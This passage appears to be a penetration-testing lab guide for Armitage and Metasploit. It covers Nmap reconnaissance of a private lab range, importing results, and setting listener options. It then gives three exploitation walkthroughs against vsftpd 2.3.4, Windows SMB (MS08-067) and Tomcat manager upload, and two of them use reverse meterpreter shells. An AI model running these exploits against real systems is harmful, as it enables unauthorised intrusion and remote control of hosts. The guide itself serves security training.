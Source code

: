 Start Armitage and connect
```
# If Armitage exists in your image
armitage &
# In the GUI:
#   Host: 127.0.0.1
#   Port: 55553 (default)
#   User: msf  (default)
#   Pass: <blank or your chosen>
# Click: Connect → (Start MSF if prompted)
```
If Armitage is unavailable on your distro, use msfconsole to replicate the same workflow.

Recon with Nmap and import into Metasploit
```
# Fast scan with service and OS detection
sudo nmap -sS -sV -O -T4 -Pn -oA scan 10.10.10.0/24

# Import scan results into Metasploit DB (so Armitage shows hosts/services)
msfconsole -q -x "db_import scan.xml; hosts; services; exit"
```
In Armitage GUI: Hosts → Import Hosts → select Nmap XML; Hosts → Nmap Scan → Quick/Intense as needed.  
Use Attacks → Find Attacks to generate suggestions.

Set global listener options (so payloads auto-fill)
```
# In msfconsole or Armitage Console tab
setg LHOST <your_vpn_or_tun_ip>
setg LPORT 4444
```

Example exploitation flows (choose modules that fit your target)

- Example A: vsftpd 2.3.4 backdoor (Linux)
```
msfconsole
search type:exploit name:vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.20
set RPORT 21
run
```

- Example B: Windows SMB (classic NetAPI)
```
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
check
run
```

- Example C: Tomcat Manager upload (HTTP)
```
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.10.30
set RPORT 8080
set HTTPUSERNAME tomcat
set HTTPPASSWORD s3cr3t
set TARGETURI /manager/html
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```
